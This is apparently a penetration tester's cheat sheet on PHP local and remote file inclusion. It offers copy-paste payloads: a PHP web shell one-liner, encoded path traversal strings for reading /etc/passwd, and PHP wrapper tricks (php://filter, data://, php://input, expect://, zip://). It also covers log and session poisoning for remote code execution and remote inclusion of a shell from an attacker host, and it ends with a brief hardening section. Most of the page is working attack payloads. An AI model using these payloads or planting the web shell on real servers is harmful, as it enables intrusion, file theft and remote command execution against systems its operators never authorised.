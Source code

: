 # basics of file inclusion

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

php web shell

```
<?php system($_GET['yz']); ?>
echo '<pre><?php system($_GET["yz"]);?></pre>' > shell.php
```

world readable files

```
/etc/passwd
C:\Windows\boot.ini
```

copy/paste these

```
../../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
/....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

php://filter/read=/resource=../../../../../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=../../../../../../../../etc/passwd
php://filter/read=string.rot13/resource=../../../../../../../../etc/passwd

expect://id
```

more advanced copy/paste

```
echo '<?php system($_GET['yz']); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW3l6XSk7ID8+Cg==&yz=id

curl -s -X POST --data "<?php system('id'); ?>" "http://<TARGET>/index.php?language=php://input"

echo '<?php system($_GET['yz']); ?>' > yz.php
zip yz.zip yz.php
# upload
zip://yz.zip%23yz.php&yz=id
```

PHP versions before 5.5 are vulnerable to null byte injection to bypass file extensions

```
language=../../../../../../../../etc/passwd%00
```


# RCE through poisoning log files

```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ # on older servers

<?php system($_GET['cmd']); ?> # use as an user-agent
```

# RCE through php session files

```
/var/lib/php/sessions/sess_<PHPSESSID>
C:\Windows\Temp\sess_<PHPSESSID>
```

```
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

# remote file inclusion

```
index.php?language=http://<LHOST>/yz.php&yz=id
index.php?language=ftp://<USER>:<PASS>@<LHOST>/yz.php&yz=id
```

# patching/hardening

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

```php
basename($_GET['language'])
```

```
# php.ini
open_basedir = /var/www
display_errors = Off
allow_url_fopen = Off
allow_url_include = Off
disable_functions = system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source
```

